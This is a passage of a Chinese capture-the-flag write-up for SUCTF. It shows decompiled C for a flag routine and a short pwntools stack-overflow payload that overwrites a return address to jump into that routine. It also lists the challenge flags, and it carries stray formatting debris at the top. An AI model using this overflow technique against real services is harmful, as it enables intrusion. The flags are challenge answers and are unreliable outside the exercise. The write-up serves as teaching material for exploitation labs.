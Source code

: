 ```C
---toc: true

---toc: true

---toc: true

---toc: true

-----
int getflag()
{
  char format; // [sp+14h] [bp-84h]@4
  char s1; // [sp+28h] [bp-70h]@3
  FILE *v3; // [sp+8Ch] [bp-Ch]@1

  v3 = fopen("flag.txt", "r");
  if ( !v3 )
    exit(0);
  printf("the flag is :");
  puts("SUCTF{dsjwnhfwidsfmsainewmnci}");
  puts("now,this chengxu wil tuichu.........");
  printf("pwn100@test-vm-x86:$");
  __isoc99_scanf("%s", &s1);
  if ( strcmp(&s1, "zhimakaimen") )
    exit(0);
  __isoc99_fscanf(v3, "%s", &format);
  return printf(&format);
}
```

可以看出这个题需要覆盖返回地址，使主函数的返回地址变为 0x0804865D, 跳至 `getflag` 函数, 然后输入 "zhimakaimen" 得到 flag. 编写 payload：
```python
from pwn import *
 
 
r = remote('xxx.xxx.xxx.xxx', 10000)
r.send('A' * 112 + '\x5d\x86\x04\x08')
r.interactive()
```

最后得到 flag: `SUCTF{5tack0verTlow_!S_s0_e4sy}`.

简单的栈溢出攻击，我做的第一道 PWN 题。一开始不知道 pwntool, 用 socket 写了一大堆代码，简直醉人。

# Web

## flag 在哪？
在 Cookie 里。HTTP 响应头带有 `Cookie: flag=suctf%7BThi5_i5_a_baby_w3b%7D` 字段。

## 编码
都说了是编码，找吧。
